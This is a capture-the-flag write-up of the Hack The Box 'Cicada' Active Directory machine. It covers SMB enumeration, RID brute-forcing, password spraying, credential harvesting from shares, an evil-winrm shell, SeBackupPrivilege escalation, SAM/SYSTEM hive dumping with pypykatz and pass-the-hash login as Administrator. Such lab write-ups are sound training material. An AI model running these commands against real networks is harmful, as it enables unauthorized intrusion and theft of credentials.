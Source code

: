 # Cicada

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Machine IP Address : 10.10.11.35



### Enumeration Phase

Start with Nmap Scan

```
nmap -Pn -A -p- 10.10.11.35
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This seems to be an Active Directory box.



### Enumerating SMB

I started by enumerating SMB to see what access is available for guest/anonymous users.

```
smbmap -H 10.10.11.35 -u 'anonymous'
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, I tried accessing each share. Using smbclient, I was able to access the HR share.

```
smbclient \\\\10.10.11.35\\HR -U "anonymous"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

"I used the `get` command in smbclient to transfer the 'Notice from HR.txt' file, which revealed a password."

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now that we have a password, let's see if any users are using it.



### Enumerating Users

We try to find domain users by brute-forcing RIDs.

```
nxc smb 10.10.11.35 -u 'anonymous' -p '' --rid-brute
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found several usernames, so I’ll try to validate them using the password we discovered. I put all the usernames in a text file and performed a password spray.

```
nxc smb 10.10.11.35 -u userrr.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' 
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We found a user who uses the password: 'michael.wrightson.

Next, I’ll look for a user with higher privileges.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'  --users
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

And we found a user whose password is stored in the description

Now, I ran `smbmap` to check if this user has access to more shares, and it turns out they do.

<figure><img src="../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Checked the 'DEV' share and found a PowerShell script called 'Backup\_script.ps1.

"Executed the following commands to access the DEV share:

```bash
smbclient \\\\10.10.11.35\\DEV -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
```

I listed the contents with the `ls`command , and `get`the Backup\_script.ps1

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Checking its contents revealed a new user, 'emily.oscars,' along with her password!

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Get the Shell

Enumerated the shares with the new user but found nothing, so I tried to get a shell using ‘evil-winrm.

```
evil-winrm -i 10.10.11.35  -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Successfully obtained a shell.

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Searched for the user flag in several directories and finally found it in `Desktop/user.txt`.

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### PrivEsc

Ran `whoami /priv` to check the user's privileges

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

With this, I realized that ‘SeBackupPrivilege’ can be used to gain read access to any file, including `root.txt`.

I did some more research and found a PowerShell script to access the `root.txt` file

{% embed url="https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1?source=post_page-----83ddcc0db5c7--------------------------------" %}

We start with transfer the script to target computer with our python server running and following command.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

Now, I ran the script using the following command to get access to the `root.txt` file

```
Acl-FullControl -user cicada\emily.oscars -path C:\users\administrator\desktop
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

Now, I can view the contents of `root.txt`!

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

## Other Method

Follow and refer this site to exploit : [Windows Privilege Escalation: SeBackupPrivilege](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)&#x20;

Create or enter a folder where you want to save the files.

First, save the SAM and SYSTEM registry hives using the following commands:

```
reg save HKLM\SAM C:\Users\emily.oscar.CICADA\Videos\sam
reg save HKLM\SYSTEM C:\Users\emily.oscar.CICADA\Videos\system
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Download the files to your local machine, then use `pypykatz` to extract the hashes.

Using this command:

```
pypykatz registry --sam sam system
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

With the extracted hash, we can now log in again. Instead of using the password, we'll use the `-H` option to authenticate with the hash.

This allows us to bypass the need for a password and authenticate directly using the hash, providing elevated access.

Using this command:&#x20;

```
evil-winrm -i 10.10.11.35  -u 'Administrator' -H 'hash'
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Logged in as the Administrator using the hash, located the `root.flag` file, and displayed its contents with `cat`. Challenge complete!

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>
